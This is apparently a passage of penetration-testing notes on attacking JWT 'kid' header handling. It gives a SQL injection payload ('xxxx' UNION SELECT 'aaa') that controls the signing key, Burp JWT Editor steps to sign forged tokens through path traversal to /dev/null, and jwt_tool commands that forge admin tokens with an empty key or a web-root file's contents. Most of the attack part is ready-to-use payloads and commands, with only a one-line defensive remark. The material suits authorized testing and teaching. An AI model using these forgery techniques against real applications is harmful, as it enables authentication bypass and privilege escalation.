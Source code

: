     If successful, an attacker can control the value returned to the kid parameter from an SQL query and use it to sign a malicious token.
    Again using the same example token, let’s say the application uses the following vulnerable SQL query to get its JWT key via the kid parameter:
    
    SELECT key FROM keys WHERE key='key1'
    
    An attacker can then inject a UNION SELECT statement into the kid parameter to control the key value:
    
    {  "alg": "HS256",  "typ": "JWT",  "kid": "xxxx' UNION SELECT 'aaa"}.{  "name": "John Doe",  "user_name": "john.doe",  "is_admin": true}
    
    If SQL injection succeeds, the application will use the following query to retrieve the signature key:
    
    SELECT key FROM keys WHERE key='xxxx' UNION SELECT 'aaa'
    
    This query returns aaa into the `kid` parameter, allowing the attacker to sign a malicious token simply with `aaa`.  To avoid these and other injection attacks, applications should always sanitize the value of the `kid` parameter before using it.
    ```
    
    ```python
    1. Go to the JWT Editor Keys tab in Burp's main tab bar Generate to generate a new key in JWK format
    2. Replace the generated value for the k property with a Base64-encoded null byte (AA==). Note that this is just a workaround because the JWT Editor extension won't allow you to sign tokens using an empty string.
    3. In the header of the JWT, change the value of the kid parameter to a path traversal sequence pointing to the /dev/null file:
    ../../../../../../../dev/null
    
    {
        "kid": "../../../../../../../../dev/null",
        "alg": "HS256"
    }
    
    4. At the bottom of the tab, click Sign, then select the symmetric key that you generated in the previous section.
    ```
    
    ```python
    # Use arbitrary files to verify
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. If there is kid in header section of JWT_token then forge a new JWT token using jwt_tool
    		'python3 jwt_tool.py <JWT> -I -hc kid -hv "../../../../../../../../dev/null" -S hs256 -p ""'
    * Alternatively, we may utilise the content of any file in the web root, such as CSS or JS, to validate the Signature.
    		'python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"'
    4. Manipulate payload section and now use the generated token in request.
    5. Done, Forward the Request.
    